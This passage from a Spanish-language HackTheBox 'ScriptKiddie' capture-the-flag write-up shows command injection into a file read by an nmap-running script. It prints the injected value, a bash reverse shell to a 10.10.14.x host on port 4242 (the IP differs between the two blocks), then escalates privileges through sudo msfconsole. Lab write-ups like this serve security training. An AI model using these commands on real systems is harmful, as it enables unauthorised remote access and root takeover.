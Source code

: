 Entonces vamos a escribir la reverse shell en el archivo hackers y nos colocamos antes a la escucha en el puerto 4242:

```
echo "argumento1 argumento2 127.0.0.1 ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.235/4242 0>&1' #" >> hackers
```

de modo que el comando quedaria asi:

```
sh -c nmap --top-ports 10 -oN recon/127.0.0.1 ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.66/4242 0>&1' #.nmap 127.0.0.1 ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.66/4242 0>&1' # 2>&1 >/dev/null
```

guardamos y tenemos una reverse shell como pwn:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SCRIPTKIDDIE/images/14.png)

si hacemos un sudo -l vemos que podemos ejecutar msfconsole como sudo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SCRIPTKIDDIE/images/15.png)

ejecutamos:

```
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

y recordemos que dentro de metasploit podemos ejecutar los comandos de metasploit y tambien comandos del sistema operativo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SCRIPTKIDDIE/images/16.png)

